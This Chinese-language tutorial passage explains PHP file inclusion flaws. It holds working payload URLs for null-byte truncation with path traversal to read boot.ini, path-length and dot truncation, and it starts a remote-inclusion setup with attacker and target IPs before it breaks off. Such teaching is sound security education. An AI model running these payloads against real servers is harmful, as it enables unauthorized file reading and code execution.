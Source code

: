 **过滤绕过方式**

- %00 截断文件包含

条件：

1. magic_quotes_gpc=off、
2. PHP版本低于5.3.4

限制代码如下

```php
<?php
	$file=$_GET['file'];
	include ($file.".html");
?>
```

http://www.abc.com/xxx/file.php?file=../../../../../../boot.ini%00

通过%00截断了后面的html拓展名过滤，成功读取了boot.ini的内容

- 路径长度截断包含

操作系统存在着最大路径长度的限制。可以输入超过最大路径长度的目录，这样系统就会将后面的路径丢弃，导致拓展名截断。

- Windows下最大路径长度为256B
- Linux下最大路径长度为4096B

```php
http://www.abc.com/xxx/file.php?file=test.txt/././././././././././././././././././././././././././././././././././././...此处省略很多很多./
```

执行test.txt，成功截断了后面的拓展名

- 点号截断文件包含--Wndows

点号的长度大于256B的时候，就可以造成拓展名截断

```
http://www.abc.com/xxx/file.php?file=test.txt.................................................................................................................................很多很多点号
```

**4.2、远程文件包含漏洞**

能够包含远程服务器上的文件并执行。由于远程服务器的文件是我们可控的（本地需要文件上传到相关目录再包含），因此漏洞一旦存在，危害性会很大。

**条件：配置php.ini**

- allow_url_fopen=On
- allow_url_include=On

##### exploiation

本机ip:192.168.1.106

目标服务器ip:192.168.1.114

本机创建text.txt

```php
//test.php

<?php
phpinfo();
?>
```
